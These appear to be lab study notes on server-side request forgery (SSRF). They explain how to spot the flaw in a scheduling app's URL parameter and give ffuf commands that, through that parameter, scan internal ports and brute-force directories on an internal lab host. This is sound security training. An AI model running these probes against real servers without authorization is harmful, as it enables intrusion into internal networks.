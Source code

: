 # Server-side Request Forgery

Occurs when a web app fetches additional resources from a remote location based on user-supplied data, such as URL.

The server fetches remote resources based on user input - the attacker coerces the server into making requests to arbitrary URLs supplied by the attacker.

**Identifying SSRF**
Looking at a web app example which has a functionality to schedule appointments.

We see the request on Burp and see that the `POST` request has a body that contains a parameter with a url as a value.

We start a listening server, and put our ip we see the request on our server.

We can **enumerate** the system, by making requests to different ports.

This process can be done with `ffuf`, by creating a list of ports that we want to test and then fuzz all open ports by filtering out responses containing the error message.

```sh
ffuf -w ./ports.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Failed to connect to"
```

## Exploiting SSRF

From the Lab.1 we saw that the web app was getting information from the url `dateserver.htb`.

This url doesn't work if we try to access from our host, but we can do it through the SSRF vulnerability, and we can also conduct a directory brute-force attack using `ffuf`.

First we should determine the response when we access a non-existing page, such as:

```sh
dateserver=http://dateserver.htb/invalid&date=2024-01-01
```

From the response we see that the default Apache 404 response, and we need to filter that out `Server at dateserver.htb Port 80`.

```sh
ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "Server at dateserver.htb Port 80"
```

Via this command we can brute-force and find any additional internal endpoint that we can access through the SSRF vulnerability.
